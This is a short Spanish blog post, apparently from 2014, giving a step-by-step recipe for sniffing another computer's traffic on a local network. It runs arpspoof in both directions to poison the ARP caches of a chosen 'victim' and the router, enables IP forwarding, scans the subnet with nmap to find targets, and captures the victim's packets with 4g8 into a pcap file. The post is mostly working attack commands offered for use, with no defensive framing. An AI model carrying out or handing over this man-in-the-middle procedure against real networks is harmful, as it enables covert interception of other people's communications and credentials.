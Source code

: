 ```yaml
---
layout: post
title: "4g8"
date: 2014-04-05 18:16
comments: true
categories: 
---
```

Capturar paquetes de equipos de una red. Previamente preparar el equipo con los pasos previos para el envenenamiento arp lanzando en dos terminales y sin cerrarlas hasta terminar la captura:

>\# arpspoof -i eth0 -t 192.168.1.12 192.168.1.1

>\# arpspoof -i eth0 -t 192.168.1.1 192.168.1.12

El “12” el sniffado, el “1” el router y el -i … la red. El paquete que contiene arpspoof es dsniff. Activar forwarding para que los paquetes vayan a su verdadero dueño:

>\# echo 1 > /proc/sys/net/ipv4/ip_forward

Para conocer los parámetros [ips y MACs] que luego tendremos que entrar en 4g8 lanzar:

>\# nmap 192.168.1.0/24

Para conocer los equipos de la red. Una vez escogida la victima, lanzar 4g8:

>\# 4g8 -i eth0 -g 192.168.1.1 -G 64:69:0C:87:A8:DC -s 192.168.1.12 -S 00:19:01:54:F5:1F -w dump.pcap

	-g (la ip del router)

	-G (la MAC del router)

	-s (la ip de la victima)

	-S (la MAC de la victima)

	-w (el archivo donde guardar las capturas)

Para el análisis del archivo dump.pcap  puedes usar wireshark entre otros.

